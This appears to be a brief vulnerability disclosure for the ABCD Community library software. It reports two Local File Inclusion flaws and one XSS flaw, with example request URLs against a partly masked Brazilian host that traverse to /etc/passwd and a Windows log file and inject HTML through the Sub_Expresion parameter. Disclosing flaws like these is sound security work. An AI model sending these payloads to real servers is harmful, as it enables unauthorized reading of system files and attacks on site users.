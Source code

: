 # Local File Inclusion and XSS in **ABCD Community**
## Vulnerable software: https://abcd-community.org/

https://github.com/ABCD-Community/development

There are two **Local File Inclusion** vulnerabilities in ABCD software:  
<br>
**show_image.php**   
**otros_sitios.php**

Examples:<br>
www[.]XXXXX[.]com[.]br/common/show_image.php?image=../../../../../../../etc/passwd&base=arquivo
<br>
www[.]XXXXX[.]com[.]br/abcd/opac/php/otros_sitios.php?sitio=C:/Windows/debug/NetSetup.log&submenu=N
<br>
<br>
<br>
A **XSS vulnerability** was found in the **Sub_Expresion** parameter on buscar_integrada.php file:
<br>
<br>
<br>
www[.]XXXXX[.]com[.]br/buscar_integrada.php?alcance=&IR_A=&campo=Se%EF%BF%BD%EF%BF%BDo&LastKey=fdsfadsa&base=arquivo&Diccio=4-1&**Sub_Expresion**=%22fda%3Cinput%3E%3Cinput%3Esfdafds%22&Sub_Expresiones=&Navegacion=&Expresion=&Campos=TW_+~~~+REF_+~~~+DAL_+~~~+FUL_+~~~+SEC_+~~~+SPL_+~~~+GDL_&Operadores=and+~~~+and+~~~+and+~~~+and+~~~+and+~~~+and&modo=1B&llamado_desde=avanzada.php&lang=pt&resaltar=S&prefijo=SEC_&Opcion=buscar_diccionario&Seleccionados=%22fdsaf%22

![image](https://www.guerrilhacibernetica.com.br/images/next.png?abcd)

